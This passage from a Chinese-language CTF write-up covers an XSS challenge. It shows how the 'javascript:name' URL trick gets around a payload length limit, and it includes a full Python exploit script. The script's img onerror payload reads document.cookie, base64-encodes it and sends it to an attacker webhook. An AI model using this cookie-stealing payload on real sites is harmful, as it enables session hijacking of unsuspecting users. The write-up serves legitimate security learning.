     ```python=
    payload = f'<img src=x onerror="location=`{webhook}/?c=`+btoa(document.cookie)">'
    encoded_payload = urllib.parse.quote(payload)

    relay_url = f'http://localhost:5000/?url={encoded_payload}'
    payload_response = s.get(url = f'{url}/visit?url={encoded_relay_url}&nonce={nonce}')
    ```

- **但是很明顯這些 payload 的長度都超過 15 了，直接塞到 url 這個 query string 行不通，但是注入 name 這個 query string 也不行，因為前端對 name 的存取方式用的是 `.textContent` ，所以沒辦法塞入任何 JS code**
    - ![image](https://hackmd.io/_uploads/ryNLn4M8lx.png)

&emsp;

6. **所以這裡就要利用到 URL scheme 中 `javascript:` 的特殊效果，如果在 `javascript:` 後面直接接上可控的 `variable name` ， `window.location.href = "javascript:name";` 就能夠做到<span class="red">把這個 `variable name` 的值當成一個新的 HTML 的頁面內容進行渲染</span>。這時候看似無法進行注入的 name 就可以派上用場了**

- **[MDN link (About javascript:)](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/javascript)**

- **完整的 pwned script ：**

    ```python=
    import requests
    import json
    import urllib.parse
    from solve_pow import solve_pow


    url = "http://chal.78727867.xyz:21337"

    # must create session to retain cookie
    s = requests.Session()

    # get the challenge nonce 
    chal_response = s.get(url = f'{url}/get_challenge')
    data = json.loads(chal_response.text)
    nonce = solve_pow(data["challenge"])

    payload = f'<img src=x onerror="location.href=`{webhook}/?c=`+btoa(document.cookie)">'
    encoded_payload = urllib.parse.quote(payload)

    relay_url = f'http://localhost:5000/?url="javascript:name"&name={encoded_payload}'
    encoded_relay_url = urllib.parse.quote(relay_url)

    payload_response = s.get(url = f'{url}/visit?url={encoded_relay_url}&nonce={nonce}')
    
    # make sure the request has been made
    print("payload HTTP status code :", payload_response.status_code)
    print("payload message :", payload_response.text)
    ```
